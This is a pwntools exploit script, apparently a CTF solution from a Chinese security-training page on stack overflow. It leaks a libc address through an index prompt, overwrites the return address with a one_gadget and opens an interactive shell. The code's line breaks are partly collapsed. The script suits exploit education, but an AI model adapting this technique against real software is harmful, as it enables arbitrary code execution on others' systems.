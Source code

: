 from pwn import * 
 
### context.arch = 'amd64' 
 
### context.log_level = 'debug' 
 
### context.terminal = ['deepin-terminal', '-x', 'sh' ,'-c'] 
libc = ELF("/usr/lib/x86_64-linux-gnu/libc-2.24.so")p = process('./pwn')one_gadget = 0x3f306libc_start_main_addr = libc.symbols['__libc_start_main']libc_start_main_241 = 0xf1offset = 0x278newValue = 1 
def byte(addr): libc_start_main = '' if(len(addr)<2): libc_start_main = '0' + addr elif(len(addr)==8): libc_start_main = addr[-2:] else: libc_start_main = addr return libc_start_main 
p.recvuntil("name:")p.sendline('pwn') 
p.recvuntil("input index\n")p.sendline(str(offset))p.recvuntil("now value(hex) ")addr = p.recvuntil('\n')[:-1]p.sendline(str(newValue)) 
p.recvuntil("input index\n")p.sendline(str(offset+1))p.recvuntil("now value(hex) ")addr1 = p.recvuntil('\n')[:-1]p.sendline(str(newValue)) 
p.recvuntil("input index\n")p.sendline(str(offset+2))p.recvuntil("now value(hex) ")addr2 = p.recvuntil('\n')[:-1]p.sendline(str(newValue)) 
libc_start_main = byte(addr2) + byte(addr1) + byte(addr)libc_addr = int('0x'+libc_start_main,16) - libc_start_main_addr - libc_start_main_241one_gadget_addr = libc_addr + one_gadget 
 
### print hex(one_gadget_addr) 
a = int('0x'+hex(one_gadget_addr)[-2:],16)b = int('0x'+hex(one_gadget_addr)[-4:-2],16)c = int('0x'+hex(one_gadget_addr)[-6:-4],16) 
 
### gdb.attach(p) 
p.recvuntil("input index\n")p.sendline(str(offset))p.recvuntil("now value(hex) ")addr = p.recvuntil('\n')[:-1]p.sendline(str(a)) 
p.recvuntil("input index\n")p.sendline(str(offset+1))p.recvuntil("now value(hex) ")addr1 = p.recvuntil('\n')[:-1]p.sendline(str(b)) 
p.recvuntil("input index\n")p.sendline(str(offset+2))p.recvuntil("now value(hex) ")addr2 = p.recvuntil('\n')[:-1]p.sendline(str(c))p.recvuntil("input index\n")p.sendline('a')p.interactive() 
![Test](https://www.hetianlab.com/specialized/headImg.action?news=ae049e09-2ea3-4143-a7d4-4971a19aec22.png  '栈溢出技巧（下）') 
本文涉及相关实���：高级栈溢出技术—ROP实战（split） （通过该实验学习ROP概念及其思路，了解高级栈溢出时需要注意的事项，并掌握解决方法，同时通过练习给出的关卡来增强实践能力。）
                                        